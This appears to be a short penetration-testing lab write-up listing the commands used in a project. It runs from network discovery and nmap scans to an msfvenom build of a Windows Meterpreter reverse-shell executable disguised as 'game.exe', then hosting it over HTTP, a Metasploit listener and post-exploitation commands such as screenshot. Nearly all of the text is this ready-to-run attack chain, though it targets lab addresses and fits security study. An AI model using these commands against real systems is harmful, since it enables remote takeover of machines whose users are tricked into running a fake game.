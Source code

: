 Commands used in the project:

1) Network discovery / target identification
netdiscover -r 192.168.56.0/24


– Passive/ARP network discovery to find hosts on the 192.168.56.0/24 network.

2) Scanning & enumeration (Nmap)

          nmap  –sV  192.168.1.6

– Service/version detection on the target IP.

        nmap -sV -sC 192.168.1.6

Aggresive scan for detailed scanning.
 
          nmap -A 192.168.1.6
  
– Service/version detection plus default scripts (-sC) for basic enumeration.


3) Payload generation (msfvenom)
   
         msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe > /tmp/game.exe

– Build a Windows Meterpreter reverse TCP executable named game.exe and write it to /tmp/game.exe.

4) Hosting the payload (simple HTTP server)
   
         python3 -m http.server 80


– Host the payload on attacker machine on port 80 so the target can download it (accessed as http://192.168.1.5/game.exe).

5) Metasploit: handler setup & run

Inside msfconsole: Metasploit framework

     use exploit/multi/handler

    set payload windows/meterpreter/reverse_tcp

     set LHOST 192.168.1.5

     set LPORT 4444

      exploit


– Configure and start a listener (multi/handler) for the reverse Meterpreter connection.

6) Meterpreter post-exploitation commands

Run inside an active Meterpreter session:

     meterpreter > sysinfo
     
     meterpreter > getuid

    meterpreter > screenshot


– sysinfo: gather system details.
– getuid: show the user context Meterpreter is running as.
– screenshot: capture the desktop as proof of compromise.
